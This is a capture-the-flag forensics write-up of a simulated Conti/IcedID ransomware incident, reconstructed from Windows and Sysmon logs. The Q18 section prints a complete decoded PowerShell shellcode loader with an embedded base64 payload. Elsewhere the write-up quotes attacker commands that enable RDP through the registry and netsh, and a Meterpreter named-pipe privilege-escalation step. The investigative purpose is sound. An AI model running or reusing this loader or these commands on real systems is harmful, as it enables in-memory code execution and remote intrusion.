

Losprys
DFIR, 3000 points
Description
Gerhadus Stephanos was about to switch on the computer that manages one of the largest model train ecosystems in the Southern Hemisphere. However, just before he could, IT came running in. An apparent "cyber security" event at the company had forced them to shut down all systems. Sounds like a ransomware event, or "losprysware" in Afrikaans... Can you help solve what happened? Gerhardus really needs the model trains up and running again...
For more information, check the Losprys scenario backstory.
Author: SocVel
Ranking

With this new mission that was published a few days ago, I managed to climb the rankings to reach the first place in the scoreboard.
Hopefully it will stay like this as I can't get any more points until a new challenge is published.
Solution
For this lab, I will explain my investigation work regarding this ransomware attack. To break down this exercise, I will focus on interesting questions asked in this SocVel's challenge. Thus, some questions might be omitted.
Most of the logs for this challenge uses the .evtx extension which are logs managed by Windows Event Viewer, you can get more information on this Forensics Wiki or this LogRhythm documentation. In order to deal with Windows Event Log files on my Linux operating system, I converted them into XML files with a Python script evtx_dump.py, available in my GitHub repository there.
Q3) What section of the targeted companies' websites were the attackers using to deliver malicious links to victims?
Attackers delivered the Conti via, for this case, the Trojan IcedID, according to Windows Defender. You can get more information with this article from The Hacker News.
In this investigation, I have to dig it out a bit more. After reading this Microsoft blog, I can state that it is through contact forms that attackers used to drop this trendy malware.
Q15) Which application was responsible for creating the Invoice.zip file on the computer?
I jump directly to this question as it is interesting to make the link here. From the previous response, I noticed that contact forms were used, hence, very probably, these forms are sent through email to the company, let's see if I am right.
I search for Invoice.zip in the Sysmon logs:
<Data Name="Image">C:\Program Files (x86)\Microsoft Office\root\Office16\OUTLOOK.EXE</Data>
<Data Name="TargetFilename">C:\Users\finance\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\O5GLAIMK\Invoice.zip</Data>
I hit the bull's-eye, Outlook is the bad guy.
Q16) It appears that the attackers were able to remotely install a malicious service on the host with their new-found urgency. What was the name of the first malicious service installed on the host following the IcedID infection?
At this moment, I know that IEUDLK.CJF, the IcedID file, was dropped in the system at 2021-07-23 14:17:37 by a user named finance and his computer name is fin-desktop. Also, this file has been run by rundll32.exe.
I looked for powershell entries and got this interesting one:
<Data Name="ParentImage">C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe</Data>
<Data Name="ParentCommandLine">"C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe" -noni -nop -w hidden -c &([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4[...]42EKAAA='))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))</Data>
Afterwards, I thought that Powershell was creating some services in this weird base64 payload. I documented myself with this definition and looked for events with an ID equals to 7045 in the System.xml file:
<EventID Qualifiers="16384">7045</EventID>
<TimeCreated SystemTime="2021-07-23 14:24:26.616776"></TimeCreated>
<EventRecordID>2367</EventRecordID>
<Channel>System</Channel>
<Computer>fin-desktop</Computer>
</System>
<EventData><Data Name="ServiceName">ipexXNOzRNIWyzHO</Data>
The timestamp suits as it is after the IcedID file drop and it creates indeed a service: it is my winner.
Q18) We need to understand what this service was doing. You can easily pull apart the encoded sections with CyberChef. Once successfully decoded, you'll see the first function is named "pvXRL". What is the name of the second funtion?
A little CyberChef here, when I decode this base64 payload with a simple From Base64 recipe, I get a hint from CyberChef which suggests to detect the file type, which means there is a magic number detected by Cyberchef, this tool is absolutely great, thank you UK's intelligence and cyber agency. Indeed, it detected the magic number 1f 8b which seems to lead to a gzip file according to Wikipedia. I crafted a bit more my recipe to end with this one to get the injected payload.
At last, I get the name of the second function:
function pvXRl {
Param ($uBmj3, $ijh)
$mwUs = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
return $mwUs.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($mwUs.GetMethod('GetModuleHandle')).Invoke($null, @($uBmj3)))), $ijh))
}
function vqAE {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $kZ51,
[Parameter(Position = 1)] [Type] $mZX = [Void]
)
$lj5 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
$lj5.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $kZ51).SetImplementationFlags('Runtime, Managed')
$lj5.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $mZX, $kZ51).SetImplementationFlags('Runtime, Managed')
return $lj5.CreateType()
}
[Byte[]]$hhg = [System.Convert]::FromBase64String("/OiPAAAAYInlMdJki1Iwi1IMi1IUi3IoD7dKJjH/McCsPGF8Aiwgwc8NAcdJde9Si1IQi0I8AdCLQHhXhcB0TAHQi0gYUItYIAHThcl0PDH/SYs0iwHWMcCswc8NAcc44HX0A334O30kdeBYi1gkAdNmiwxLi1gcAdOLBIsB0IlEJCRbW2FZWlH/4FhfWosS6YD///9daDMyAABod3MyX1RoTHcmB4no/9C4kAEAACnEVFBoKYBrAP/VagpoCgoKY2gCAAG7ieZQUFBQQFBAUGjqD9/g/9WXahBWV2iZpXRh/9WFwHQK/04IdezoZwAAAGoAagRWV2gC2chf/9WD+AB+Nos2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1YP4AH0oWGgAQAAAagBQaAsvDzD/1VdodW5NYf/VXl7/DCQPhXD////pm////wHDKcZ1wcO74B0qCmimlb2d/9U8BnwKgPvgdQW7RxNyb2oAU//V")
$np = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((pvXRl kernel32.dll VirtualAlloc), (vqAE @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $hhg.Length,0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($hhg, 0, $np, $hhg.length)
$f5AM0 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((pvXRl kernel32.dll CreateThread), (vqAE @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$np,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((pvXRl kernel32.dll WaitForSingleObject), (vqAE @([IntPtr], [Int32]))).Invoke($f5AM0,0xffffffff) | Out-Null
Q21) The attackers edited the value of a specific registry key in order to enable RDP connections to the host. What was the new value assigned to the key?
What is the event ID when one set a new value to a registry? This great site answered me and it is 13. After some searches, I got these events that follow each other:
<EventID Qualifiers="">1</EventID>
<TimeCreated SystemTime="2021-07-23 14:38:15.695042"></TimeCreated>
<Channel>Microsoft-Windows-Sysmon/Operational</Channel>
<Computer>fin-desktop</Computer>
<Data Name="UtcTime">2021-07-23 14:38:15.688</Data>
<Data Name="Image">C:\Windows\SysWOW64\reg.exe</Data>
<Data Name="Description">Registry Console Tool</Data>
<Data Name="OriginalFileName">reg.exe</Data>
<Data Name="CommandLine">reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f</Data>
<Data Name="CurrentDirectory">C:\Windows\system32\</Data>
<Data Name="ParentProcessId">8740</Data>
<Data Name="ParentImage">C:\Windows\SysWOW64\cmd.exe</Data>
<EventID Qualifiers="">13</EventID>
<TimeCreated SystemTime="2021-07-23 14:38:15.706722"></TimeCreated>
<Channel>Microsoft-Windows-Sysmon/Operational</Channel>
<Computer>fin-desktop</Computer>
<EventData><Data Name="RuleName">ModifyRemoteDesktopState</Data>
<Data Name="EventType">SetValue</Data>
<Data Name="UtcTime">2021-07-23 14:38:15.701</Data>
<Data Name="ProcessId">6800</Data>
<Data Name="Image">C:\Windows\SysWOW64\reg.exe</Data>
<Data Name="TargetObject">HKLM\System\CurrentControlSet\Control\Terminal Server\fDenyTSConnections</Data>
Thereby, I can read the new key value.
Q22) The attackers enabled a specific Firewall rule group on the host. Which port would have been opened due to this change?
At first, I was still looking at this website for events dealing with firewall changes. I looked up in the logs for events ID equals to 4946 and 4950 and found nothing.
I guessed that as the new rule is dealing with Remote Desktop Protocol, it is very likely that the concerned port is 3389. Let's gather more information to be sure of my shot. After a while, I stumbled upon this event:
<Data Name="UtcTime">2021-07-23 14:38:37.623</Data>
<Data Name="Image">C:\Windows\SysWOW64\netsh.exe</Data>
<Data Name="OriginalFileName">netsh.exe</Data>
<Data Name="CommandLine">netsh advfirewall firewall set rule group="remote desktop" new enable=Yes</Data>
<Data Name="CurrentDirectory">C:\Windows\system32\\</Data>
<Data Name="IntegrityLevel">System</Data>
<Data Name="ParentImage">C:\Windows\SysWOW64\cmd.exe</Data>
</EventData>
</Event>
It confirmed my guess to me. I tried it and it turned out that I was right.
Q24) When, based on the Sysmon logs, did the attacker first attempt to escalate their priviledges by running ""GetSystem"" via Meterpreter on the host? Give you answer in UTC time in the following format: yyyy-mm-dd hh:mm:ss
Once I found an interesting documentation, I understood that \\.\pipe\ is the core of this payload used by Meterpreter to escalate privileges. Thus, I dig in the logs with that filter and got this entry, with a coherent timestamp, which is the first attempt to escalate privileges:
<TimeCreated SystemTime="2021-07-23 14:24:37.857069"></TimeCreated>
<Channel>Microsoft-Windows-Sysmon/Operational</Channel>
<Computer>fin-desktop</Computer>
<Data Name="UtcTime">2021-07-23 14:24:37.855</Data>
<Data Name="Description">Windows Command Processor</Data>
<Data Name="OriginalFileName">Cmd.Exe</Data>
<Data Name="CommandLine">cmd.exe /c echo nrjyqs > \\.\pipe\nrjyqs</Data>
Q26) What was the name of the ransomware executable run on the computer which was likely responsible for causing the user’s data to be encrypted?
I had nowhere to go here. I ended up scrolling, after the found timestamps, and bumped into a lot of readme.txt files. With my knowledge about malware analysis, I know that ransomwares drop readmes with ransom instruction for the infected computer users. Here is one of the log entry:
<Data Name="Image">c:\Windows\Temp\sys32.gif</Data>
<Data Name="TargetFilename">C:\Users\Default\Favorites\readme.txt</Data>
The software sys32.gif seems to be responsible, let's search a bit more:
<Data Name="CommandLine">c:\Windows\Temp\sys32.gif</Data>
<Data Name="CurrentDirectory">C:\Windows\system32\</Data>
<Data Name="ParentImage">C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe</Data>
<Data Name="ParentCommandLine">"C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe" -noni -nop -w hidden -c &([scriptblock]::create((New-Object System.IO.StreamReader(
[...]
That is really relevant: it matches my guess as this executable launches the malicious payload we studied beforehand. Hence, it indeed made the user's data encrypted.
Q29) Having a look online, you find that a sample was submitted in May 2021 to an online malware sandbox that created a near identical ransom note as the Transnet one. What was the name of the of company as shown on the sandbox sample's ransom note?
That directly rang a bell to me: the sandbox it is talking about is Joe Sandbox, which is a great tool about deep malware analysis. I used my OSINT skills there to get more information and came upon this introduction article regarding Transnet attack and this analysis from our great sandbox, which is dated May 2021. I notably had a look on created or dropped files and got an interesting preview:
"Hello dear westernpathologyinc !
[...]
use TOR browser to talk with support"
It seems that the company that is attacked here is westernpathologyinc. I had to be sure of me: I kept searching and came across this Russian analysis that I naturally translated to English. I noticed this sentence:
"In May 2021, a new version written in the Go language appeared"
Once this read, I understood that in May 2021, another version was published as a ransomware. I submitted my first find and FLAG!